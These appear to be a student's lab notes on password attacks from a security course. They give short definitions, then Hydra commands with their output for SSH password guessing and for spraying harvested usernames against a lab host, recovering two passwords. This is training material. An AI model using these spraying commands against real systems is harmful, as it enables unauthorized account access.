 # Lab 3 Passwords and Access Attacks

Credential stuffing:

Password spraying:

Salting passwords makes rainbow attacks difficult because random nonce added.

PAM used to enforce password complexity policies on Linux

## 3.1 Password Guessing Attacks with Hydra

This is a basic password spraying attack

```bash
hydra -t 4 -l sec504 -p sec504 ssh://127.0.0.1
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-07-13 17:00:14
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://127.0.0.1:22/
[22][ssh] host: 127.0.0.1   login: sec504   password: sec504
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-07-13 17:00:15
```

flags:

- -t: number of threads (default is 16, but 4 is optimal for SSH)
- -l: username
- -L: list of usernames
- -p: password (single)
- -P: password list
- method://IP_ADDRESS

```bash
# Creates a user list based on emails we harvested, with everything after the @ removed with sed
awk '{print $3}' users2.txt | sed 's/@.*//' > ulist.txt

hydra -t 4 -L ulist.txt -P passwords.txt ssh://172.30.0.25
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-07-13 17:14:30
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 399 login tries (l:19/p:21), ~100 tries per task
[DATA] attacking ssh://172.30.0.25:22/
[22][ssh] host: 172.30.0.25   login: jorestes   password: Admin123!@#
[STATUS] 201.00 tries/min, 201 tries in 00:01h, 198 to do in 00:01h, 4 active
[22][ssh] host: 172.30.0.25   login: pemma   password: P@$$w0rd
[STATUS] 195.00 tries/min, 390 tries in 00:02h, 9 to do in 00:01h, 4 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-07-13 17:16:55
```
